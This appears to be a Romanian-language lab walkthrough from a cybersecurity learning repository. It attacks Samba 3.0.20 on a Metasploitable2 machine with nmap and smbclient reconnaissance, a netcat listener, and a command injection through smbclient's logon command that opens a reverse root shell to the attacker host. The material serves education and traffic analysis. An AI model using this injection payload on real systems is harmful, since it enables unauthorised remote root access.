 ### Atac SMB:
  
  - [Despre SMB](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_smb.md)
  - versiune: *Samba 3.0.20*
  - Pasii atacului:
               
         nmap -sSV 192.168.56.102 -p139,445
         
    ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/nmap-scan-samba.png)

    Pentru a descoperi versiunea finala a serviciului, putem folosi tool-ul `smbclient` <!-- (https://github.com/Dani780-C/Cyber-security/blob/main/tools/smbclient.md).-->
        
         smbclient -L 192.168.56.102 -p 445
         
    Dupa executarea comenzii, clientul este intrebat de o parola. Se apasa ENTER.
     
    ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/samba-version.png)

    Problema cu aceasta versiune samba 3.0.20 apare la etapa de login a clientului. Prin folosirea `metacaracterelor`<!--(https://github.com/Dani780-C/Cyber-security/blob/main/learn/metacaractere.md)--> putem sa scapam de partea de login a username-ului si sa executam comenzi (command injection).  
    
    Inainte de toate, trebuie sa avem un listener pe un anumit port pentru conexiuni exterioare. Intr-un terminal separat vom executa un netcat pentru a asculta pe portul 4444 orice conexiune: `nc -lvp 4444`.  
    In alt terminal, vom folosi smbclient pentru a ne conecta la serverul remote Metasploitable2: `smbclient //metasploitable/tmp`. Acum vine partea de autentificare in care vom apasa ENTER pentru a folosi command interface-ul smbclient.  
    Comanda `logon` din smbclient ne va ajuta sa omitem partea de autentificare injectand o comanda ce ne va efectua un reverse shell pe portul 4444 ascultat de `netcat`: ``logon "/=`nc 192.168.56.101 4444 -e /bin/bash`"``.  
    Se poate vedea ca atacul a reusit si folosim contul de root.
    
    ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/smbclient-logon-metacaractere.png)
    
  - Analiza trafic:
      - [Captura traficului pentru serviciul Samba in timpul atacului](https://github.com/Dani780-C/Cyber-security/blob/main/captures/samba-traffic-while-attack.pcapng)

